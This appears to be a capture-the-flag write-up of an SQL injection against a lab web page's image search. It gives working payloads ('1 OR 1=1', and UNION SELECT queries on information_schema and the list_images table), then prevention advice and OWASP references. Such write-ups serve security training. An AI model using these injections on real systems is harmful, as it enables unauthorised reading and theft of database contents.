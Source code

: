 # Vulnerability

SQL injection allow you to access and manipulate all your datas.

# Identification

# Resolve

Go to http://10.11.249.210/?page=searchimg
Fill the form
1 OR 1=1 and submit (http://10.11.249.210/?page=searchimg&id=1+OR+1%3D1&Submit=Submit#)
It will show all users and we are sure about the vulnerability

Now, we will get all columns and tables from DB
1 UNION SELECT table_name, column_name FROM information_schema.columns

Table name:

- list_images

Columns name:

- id
- url
- title
- comment

We will parse all columns and find what we need

1 UNION SELECT id, concat(id, url, title, comment) FROM list_images

countersign->md5->lower->sha256->flag

# Prevent

- Use of Prepared Statements (with Parameterized Queries)
- Use of Properly Constructed Stored Procedures
- Allow-list Input Validation
- STRONGLY DISCOURAGED: Escaping All User Supplied Input

# Resources

https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html\
https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/05-Testing_for_SQL_Injection\
https://www.dcode.fr/md5-hash\
https://www.dcode.fr/sha256-hash
